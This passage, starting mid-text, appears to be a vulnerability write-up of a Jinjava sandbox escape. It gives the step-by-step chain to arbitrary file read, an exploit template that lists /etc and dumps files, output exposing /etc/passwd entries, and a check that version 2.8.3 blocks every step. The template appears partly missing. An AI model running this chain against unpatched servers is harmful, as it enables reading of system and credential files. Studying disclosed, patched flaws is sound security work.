127.0.0.1 localhost
255.255.255.255 broadcasthost
::1             localhost


```
**We have achieved full arbitrary file read.** The chain:   
1. Create a `java.net.URL` object with a `file://` URL via `convertValue()`   
2. Call `url.openStream()` to get a `BufferedInputStream`   
3. Call `stream.readAllBytes()` to read the file into a `byte[]`   
4. Use `om.writeValueAsString(bytes)` to convert the bytes to base64 (Jackson's default serialization for byte arrays)   
5. The base64 string is rendered in the template output   
6. Decode the base64 on the attacker's end   

Note: The output is in Base64 because when the exploit reads the file, it stores the content in a Java byte array (byte[]). When you ask Jackson's ObjectMapper to convert a byte array into a string (using writeValueAsString), its default behavior is to encode that binary data into Base64 format. 
   
The same chain works for `/etc/passwd`:   
```

Decoded first few lines:
##
# User Database
#
nobody:*:-2:-2:Unprivileged User:/var/empty:/usr/bin/false
root:*:0:0:System Administrator:/var/root:/bin/sh
daemon:*:1:1:System Services:/var/root:/usr/bin/false


```
 --- 
## The Final Exploit — Complete PoC   
Here's the complete,minimal exploit template that demonstrates all capabilities:  
 
```







=== TARGET FILE INFO ===

path: {{ target.absolutePath }}
exists: {{ target.exists() }}
readable: {{ target.canRead() }}
size: {{ target.length() }} bytes
is_directory: {{ target.directory }}
is_hidden: {{ target.hidden }}

=== DIRECTORY LISTING: /etc ===

{{ etc.list() }}

=== FILE CONTENT (base64): /etc/hosts ===



{{ om.writeValueAsString(bytes) }}



```

Output:   
```

=== TARGET FILE INFO ===
path: /etc/passwd
exists: true
readable: true
size: 9344 bytes
is_directory: false
is_hidden: false

=== DIRECTORY LISTING: /etc ===
['manpaths', 'rc.common', 'passwd', 'shadow', 'ssh', 'sudoers', 'hosts', ...]

=== FILE CONTENT (base64): /etc/hosts ===
"IyMKIyBIb3N0IERhdGFiYXNlCiMK..."


```
### The Exploit Chain Visualized   
    
 --- 
## Verifying the Fix Against 2.8.3   
Change the version in `pom.xml` from `2.8.2` to `2.8.3` and run the same exploit:   
```

<version>2.8.3</version>


```
Results:   
```

╔═══════════════════════════════════════════════════════╗
║  Jinjava version: 2.8.3                              ║
╚═══════════════════════════════════════════════════════╝

  [BLOCKED] ForTag bypass: leak .class
  [BLOCKED] ForTag bypass: leak config
  [BLOCKED] Leak ObjectMapper from config
  [BLOCKED] ObjectMapper.writeValueAsString
  [BLOCKED] TypeFactory.constructFromCanonical
  [BLOCKED] Create java.io.File via convertValue
  [BLOCKED] Directory listing via File.list()
  [BLOCKED] File content read via URL + readAllBytes
  [BLOCKED] enableDefaultTyping + readValue(polymorphic JSON)


```
**All 9 exploit primitives are blocked.** The chain breaks at Step 2—ForTag now uses `resolveProperty()` which goes through the EL resolver.The EL resolver checks `isRestrictedClass(interpreter)`,finds that `JinjavaInterpreter` is restricted, and returns `null`.With `config` being `null`, the entire downstream chain collapses.   
## Conclusion   
  
The advisory rates this as CVSS 9.8 (Critical),and our exploit confirms why.From a single template input,we achieved:   
- **Information Disclosure**: leaked internal class names, configuration, security settings   
- **File System Enumeration**: listed directories, checked file existence   
- **Arbitrary File Read**: read the full contents of any file readable by the Java process   
- **Credential Exposure**: enumerated SSH key files, checked for shadow/sudoers files   
   
And all of this from what's supposed to be a sandboxed template engine.   
## References   
- [Commit](https://github.com/HubSpot/jinjava/commit/3d02e504d8bbb13bf3fe019e9ca7b51dfce7a998)   
- [Advisory](https://github.com/HubSpot/jinjava/security/advisories/GHSA-gjx9-j8f8-7j74)   
- [Jackson Default Typing](https://cowtowncoder.medium.com/jackson-2-10-safe-default-typing-2d018f0ce2ba)
- [Java Reflection](https://aeontanvir.medium.com/exploring-java-reflection-api-a-comprehensive-guide-d871f73333ca)

   
   
